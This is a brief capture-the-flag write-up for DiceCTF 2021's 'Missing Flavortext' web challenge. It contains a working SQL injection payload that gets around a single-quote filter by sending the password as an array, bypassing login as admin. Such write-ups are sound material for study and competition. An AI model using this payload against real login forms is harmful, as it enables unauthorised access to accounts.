 Hmm, it looks like there's no flavortext here. Can you try and find it?

missing-flavortext.dicec.tf



root@kali:~/Documents/DiceCTF/2021# cat web-Missing-Flavortext/exploit.txt
The page has a filter to remove the single quote but it can be bypassed

request params as follow:

username=admin&password[]=' OR 1=1 -- &password[]=\'
